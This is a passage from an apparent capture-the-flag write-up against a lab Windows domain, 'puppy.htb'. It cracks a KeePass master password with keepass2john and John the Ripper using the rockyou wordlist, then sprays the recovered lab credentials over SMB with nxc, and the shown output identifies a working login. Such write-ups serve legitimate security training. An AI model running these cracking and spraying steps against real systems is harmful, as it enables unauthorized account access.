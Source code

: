 We need a master password to open the database. Let's try to crack it.

```bash
keepass2john recovery.kdbx > keepass_hash.txt
john keepass_hash.txt --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

It should be cracked, let's get back to the KeePass and input the master password.

![alt text](image-2.png)

We have bunch of credentials. Let's spray them to see which one works. `Steve` and `Samuel` are non existent user so I will skip them.
`users.txt`

```txt
jamie.williams
adam.silver
ant.edwards
```

`passwords.txt`

```txt
JamieLove2025!
HJKL2025!
Antman2025!
```

```bash
> nxc smb puppy.htb -u users.txt -p passwords.txt --no-brute --continue-on-success
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```

The credential for `ant.edwards` works.

# Auth as ant.edwards
